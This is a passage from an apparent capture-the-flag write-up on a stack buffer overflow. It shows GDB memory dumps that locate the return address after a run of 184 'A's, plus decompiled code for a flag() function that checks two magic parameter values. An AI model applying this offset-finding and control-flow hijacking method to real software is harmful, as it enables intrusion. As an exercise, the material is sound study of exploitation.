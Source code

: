 As we continue the program on GDB, I inputted 184 ‘A’s and see the content of the stack again. However, 4 more bytes of ‘A’s are required to reach right before the return address

```
(gdb) c
Continuing.                                                                                                                                                 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x08049296 in vuln ()
(gdb) x/60x $esp
0xffffcf40:     0xffffcf50      0xf7fa1de7      0x00000001      0x08049281
0xffffcf50:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcf60:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcf70:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcf80:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcf90:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcfa0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcfb0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcfc0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcfd0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcfe0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffcff0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd000:     0x41414141      0x41414141      0xffffd000      0x08049318
0xffffd010:     0xffffd050      0xf7fbf66c      0xf7fbfb10      0x000003e8
0xffffd020:     0xffffd040      0xf7fa0ff4      0xf7ffd020      0xf7da13b5
```

Here, last `0x41414141` (in 3rd column, 3rd last row)  is the last 4 bytes of ‘A’s we overflowed, and `0x08049318` (last column, 3rd last row) is the return address of `vuln()`

As I analyzed the functions of the program, I notice the `flag()` function which will help to print the flag to us 

```

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```
